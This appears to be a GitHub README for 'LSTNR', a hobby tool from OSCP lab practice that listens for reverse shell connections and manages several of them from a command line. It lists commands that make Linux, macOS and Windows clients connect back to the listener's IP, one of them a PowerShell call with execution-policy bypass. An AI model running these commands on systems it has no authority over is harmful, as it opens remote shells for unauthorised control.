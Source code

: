 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE

1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`
<img width="666" alt="Screenshot 2025-01-03 at 6 36 01 PM" src="https://github.com/user-attachments/assets/9f1a5adb-3981-42cb-9855-3d847ec16c53" />

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
     <img width="736" alt="Screenshot 2025-01-03 at 6 34 33 PM" src="https://github.com/user-attachments/assets/6dc676a0-4af2-4eb3-b3df-8ecd42e274dd" />
   
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
     
<img width="666" alt="Screenshot 2025-01-03 at 6 35 10 PM" src="https://github.com/user-attachments/assets/68d38103-f333-4525-9a56-f82b1b09c7cc" />
